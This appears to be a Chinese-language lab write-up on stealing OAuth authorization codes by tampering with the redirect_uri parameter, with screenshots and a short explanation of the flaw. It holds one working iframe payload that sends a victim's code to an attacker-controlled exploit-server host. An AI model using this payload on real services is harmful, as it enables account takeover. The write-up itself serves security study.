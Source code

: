 ### 窃取用户 code

众所周知，OAuth 授权时，授权方返回重定向包给浏览器，重定向包就是第三方的 CallBack 接口。

核心：**如果重定向包的链接攻击者可控，那么攻击者可将第三方 CallBack 接口替换为攻击者页面。导致 code 被拼接到攻击者页面上**。

![image-20250513154326227](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513154326227.png)

授权方重定向，和客户端访问 CallBack 接口如下：

![image-20250513165750669](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513165750669.png)

1. 如果重定向包的链接攻击者可控，那么攻击者可将第三方 CallBack 接口替换为攻击者页面。导致 code 被拼接到攻击者页面上，如下：

![image-20250513165805643](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513165805643.png)

2. 第二个包，访问 CallBack 接口：

![image-20250513165834490](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513165834490.png)

```
<iframe src="https://oauth-0a1100830340bda18031010f020200ca.oauth-server.net/auth?client_id=p9s0b9mrrt0mg4xr8xvru&redirect_uri=https://exploit-0a3c00740353bdf8803402830100004d.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

![image-20250513170015493](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513170015493.png)

用户申请 code 后重定向到了攻击者链接，而不是 callback 链接。

OAuth 服务方存在的缺陷，如果用户发来的请求 code 的数据包中，session 和参数 client_id，指向不同的用户，将返回 session 指向的用户的 code，没有校验 session 和 client_id 是否是同一身份导致信息泄露。

